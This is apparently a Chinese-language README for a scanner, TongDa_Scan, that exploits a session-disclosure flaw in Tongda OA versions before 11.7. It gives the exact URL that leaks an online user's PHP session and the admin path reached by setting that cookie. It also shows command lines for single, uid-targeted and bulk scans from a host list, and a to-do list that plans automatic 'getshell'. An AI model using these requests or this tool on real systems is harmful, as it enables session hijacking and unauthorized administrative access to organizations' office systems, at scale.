 # 漏洞简述

通达OA v11.7 中存在某接口查询在线用户，当用户在线时会返回 PHPSESSION使其可登录后台系统

# 影响版本

通达OA < v11.7

# 漏洞利用

检测当前用户是否存在线

```
http://127.0.0.1/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0
```

> 不在线

不在线显示 `RELOGIN`

![](./1.png)

> 在线

在线页面空白，但已拿到`SESSION`

![](./2.png)

设置Cookie可直接登录后台

```
http://127.0.0.1/general/index.php
```

# 工具利用

[https://github.com/S1xHcL/TongDa_Scan](https://github.com/S1xHcL/TongDa_Scan)

```
# 指定 URL
python3 .\TongDa_Scan.py -u 127.0.0.1

# 指定 uid 进行扫描
python3 .\TongDa_Scan.py -u 127.0.0.1 -i 1

# 批量扫描，默认扫描UID为1
python3 .\TongDa_Scan.py -f ./list.txt
```

# 待更新

1. 多线程，加快扫描速度
2. 自动getshell

# 引用

[通达OA v11.7 在线用户登录漏洞 · PeiQi WiKi文库](http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E9%80%9A%E8%BE%BEOA/%E9%80%9A%E8%BE%BEOA%20v11.7%20%E5%9C%A8%E7%BA%BF%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E.html)
